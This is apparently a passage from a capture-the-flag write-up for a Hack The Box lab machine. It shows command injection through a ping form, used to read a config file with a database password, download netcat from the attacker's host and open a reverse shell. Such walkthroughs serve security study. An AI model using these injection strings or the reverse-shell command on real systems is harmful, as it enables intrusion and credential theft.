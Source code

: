 I am presented with a `traceroute` / `ping` form that accepts IP addresses as input.
Given the relative simplicity of the SQL injection and zone transfer so far, I go for the easiest option here as well: command execution.
It is also successful.
This is a medium box, huh?

![command exec ls][]

I am interested in the `config.php` file, so let's read the contents.

```bash
8.8.8.8; cat config.php;
```

```php
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'admin');
define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
define('DB_DATABASE', 'admin');
$db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

For good measure, I also check to see what users exist on the box:

```bash
8.8.8.8; ls /home;
```

```bash
noulis
```

I opt to upload a netcat executable to the system in order to create a reverse shell.

```bash
8.8.8.8; wget http://10.10.14.19:8000/nc
```

I make the binary executable.

```bash
8.8.8.8; chmod +x nc; ls -la;
```

I then start a local netcat listener and execute netcat on the target.

```bash
sudo nc -lvnp 443
```

On the target:

```bash
8.8.8.8; ./nc -e /bin/sh 10.10.14.19 443;
```

This gives me a web shell as the `www-data` user.
I can read the user flag from the `noulis` home directory.

With the database password, I log into the database and poke around, but don't find anything of interest.


[hackthebox]: https://www.hackthebox.eu
[linenum]: https://github.com/rebootuser/LinEnum
[command exec ls]: /assets/img/htb/cronos/ls-nettool.png
[php reverse shell]: /assets/img/htb/cronos/php-reverse-shell.png
[root shell]: /assets/img/htb/cronos/root-shell.png